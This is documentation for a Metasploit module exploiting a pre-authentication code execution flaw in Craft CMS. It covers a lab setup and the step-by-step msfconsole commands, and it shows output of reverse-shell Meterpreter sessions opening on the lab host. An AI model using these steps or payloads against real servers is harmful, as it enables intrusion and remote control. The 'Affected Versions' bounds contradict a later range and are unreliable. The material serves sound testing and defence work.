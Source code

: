 ## Vulnerable Application

This Metasploit module exploits a Remote Code Execution vulnerability in Craft CMS.

The vulnerability lies in improper handling of image transformations, which can be exploited to
inject and execute arbitrary PHP code on the server via crafted HTTP requests.

---

### Affected Versions

- **3.x series**: `>= 3.9.15`
- **4.x series**: `>= 4.14.15`
- **5.x series**: `>= 5.6.17`

---

### Setting Up a Vulnerable Lab

To test this exploit, follow these steps to set up a vulnerable Craft CMS environment.

#### Docker Setup

Install a specific vulnerable version of Craft CMS:

```bash
mkdir exploit-craft && \
cd exploit-craft && \
    # Configure DDEV (https://ddev.com/) project for Craft CMS \
ddev config \
  --project-type=craftcms \
  --docroot=web \
  --create-docroot \
  --php-version="8.2" \
  --database="postgres:15" \
  --nodejs-version="20" && \
    # Create the DDEV project
ddev start -y && \
    # Create Craft CMS with the specified version
ddev composer create -y --no-scripts --no-interaction "craftcms/craft:5.0.0" && \
    # Install a vulnerable Craft CMS version
ddev composer require "craftcms/cms:5.5.0" \
  --no-scripts \
  --no-interaction --with-all-dependencies && \
    # Set the security key for Craft CMS
ddev craft setup/security-key && \
    # Install Craft CMS
ddev craft install/craft \
    --username=admin \
    --password=password123 \
    --email=admin@example.com \
    --site-name=Testsite \
    --language=en \
    --site-url='$DDEV_PRIMARY_URL' && \
ddev restart && \
    # Launch the project
echo 'Setup complete. Launching the project.' && \
ddev launch
```

---

## Verification Steps

1. Start the vulnerable Craft CMS instance using the steps above.
2. Launch `msfconsole`.
3. Use the module: `use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432`.
4. Set `RHOSTS` to the target Craft CMS instance.
5. Configure additional options (`TARGETURI`, `SSL`, etc.) as needed.
6. Execute the exploit with the `run` command.
7. If successful, the module will execute the payload on the target.


## Options

The module has the following option:

- **ASSET_ID**: This option is required for older versions of Craft CMS, particularly in the 3.x series.
It specifies the asset ID for the Craft CMS instance. For 3.x versions, this ID must be set correctly to exploit the vulnerability.

For example, if you are targeting a Craft CMS version from the `>= 3.0.0`, `< 3.9.14`, make sure to specify the correct `ASSET_ID`.
This is necessary for successful exploitation when dealing with these versions.

Craft CMS uses the notion of an "Asset" to manage files and media such as images and documents; each asset has a unique ID.
This module does not perform bruteforcing of asset IDs to avoid noisy and inefficient exploitation attempts.


## Scenarios

#### Successful Exploitation Against Craft CMS 5.5.0

**Setup**:

- Local Craft CMS instance with a vulnerable version (e.g., `5.5.0`).
- Metasploit Framework.

**Steps**:

To successfully exploit the Craft CMS vulnerability using this Metasploit module, follow these steps:

1. Start `msfconsole`:
```bash
msfconsole
```

2. Load the module:
```bash
use exploit/linux/http/craftcms_preauth_rce_cve_2025_32432
```

3. Set the `RHOSTS` option to the target Craft CMS instance, for example:
```bash
set RHOSTS exploit-craft.ddev.site
```

4. Configure other necessary options such as `TARGETURI`, `SSL`, and `RPORT` if required. By default:
   - `RPORT` is set to `80`.
   - `TARGETURI` is set to `/`.

5. Set the payload for exploitation. For example:
```bash
set PAYLOAD cmd/linux/http/x64/meterpreter/reverse_tcp
```

6. Set the local listener address and port:
```bash
set LHOST 192.168.1.36
set LPORT 4444
```

7. Run the exploit:
```bash
exploit
```

**Expected Results**:

If the target is vulnerable, the module will successfully execute the payload and open a session, such as a Meterpreter shell:

##### For `ARCH_PHP`:

```bash
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > options

Module options (exploit/linux/http/craftcms_preauth_rce_cve_2025_32432):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   ASSET_ID  410              yes       Existing asset ID
   Proxies                    no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                     yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-m
                                        etasploit.html
   RPORT     80               yes       The target port (TCP)
   SSL       false            no        Negotiate SSL/TLS for outgoing connections
   VHOST                      no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.36     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   PHP In-Memory



View the full module info with the info, or info -d command.
```

```bash
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (40004 bytes) to 172.24.0.2
[*] Meterpreter session 12 opened (192.168.1.36:4444 -> 172.24.0.2:35238) at 2025-04-29 21:52:44 +0200

meterpreter > sysinfo
Computer    : exploit-craft-web
OS          : Linux exploit-craft-web 6.14.2-2-cachyos #1 SMP PREEMPT_DYNAMIC Thu, 10 Apr 2025 17:27:10 +0000 x86_64
Meterpreter : php/linux
```

##### For `ARCH_CMD`:

```bash
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set target 1
target => 1
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > set payload cmd/linux/http/x64/meterpreter/reverse_tcp
payload => cmd/linux/http/x64/meterpreter/reverse_tcp
msf exploit(linux/http/craftcms_preauth_rce_cve_2025_32432) > exploit http://exploit-craft.ddev.site/
[*] Started reverse TCP handler on 192.168.1.36:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] Leaked session.save_path: /var/lib/php/sessions
[+] The target is vulnerable. Session path leaked
[*] Injecting stub & triggering payload...
[*] Sending stage (3045380 bytes) to 172.24.0.2
[*] Meterpreter session 13 opened (192.168.1.36:4444 -> 172.24.0.2:33436) at 2025-04-29 21:53:43 +0200

meterpreter > sysinfo
Computer     : 172.24.0.2
OS           : Debian 12.10 (Linux 6.14.2-2-cachyos)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
```

